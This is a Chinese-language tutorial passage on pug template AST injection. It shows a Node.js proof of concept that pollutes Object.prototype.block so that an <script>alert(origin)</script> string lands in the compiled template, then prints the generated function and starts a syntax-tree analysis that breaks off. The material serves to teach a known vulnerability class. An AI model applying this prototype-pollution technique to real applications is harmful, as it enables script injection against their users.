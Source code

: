 ### pug template AST injection 示例

```bash
const pug = require('pug');

// 模拟原型链污染
Object.prototype.block = {"type":"Text","val":`<script>alert(origin)</script>`};

const source = `h1= msg`;

var fn = pug.compile(source, {});
var html = fn({msg: 'It works'});

console.log(html); // <h1>It works<script>alert(origin)</script></h1>
```

当执行到 `fn({msg: 'It works'});` 这一步的时候，本质上是进入了一段函数

打印出这段函数的代码，可以看到通过原型链污染我们实现了向生成代码中插入一段字符串

```bash
(function anonymous(pug
) {
function template(locals) {var pug_html = "", pug_mixins = {}, pug_interp;var pug_debug_filename, pug_debug_line;try {;
    var locals_for_with = (locals || {});

    (function (msg) {
      ;pug_debug_line = 1;
pug_html = pug_html + "\u003Ch1\u003E";
;pug_debug_line = 1;
pug_html = pug_html + (pug.escape(null == (pug_interp = msg) ? "" : pug_interp)) + "\u003Cscript\u003Ealert(origin)\u003C\u002Fscript\u003E\u003C\u002Fh1\u003E";
    }.call(this, "msg" in locals_for_with ?
        locals_for_with.msg :
        typeof msg !== 'undefined' ? msg : undefined));
    ;} catch (err) {pug.rethrow(err, pug_debug_filename, pug_debug_line);};return pug_html;}
return template;
})
```

### AST Injection 原理分析 (以 pug 为例)

#### 语法树结构

pug 解析 `h1= msg` ，生成的语法树结构：

```bash
{
    "type":"Block",
    "nodes":[
        {
            "type":"Tag",
            "name":"h1",
            "selfClosing":false,
            "block":{
                "type":"Block",
                "nodes":[
                    {
                        "type":"Code",
                        "val":"msg",
                        "buffer":true,
                        "mustEscape":true,
                        "isInline":true,
                        "line":1,
                        "column":3
```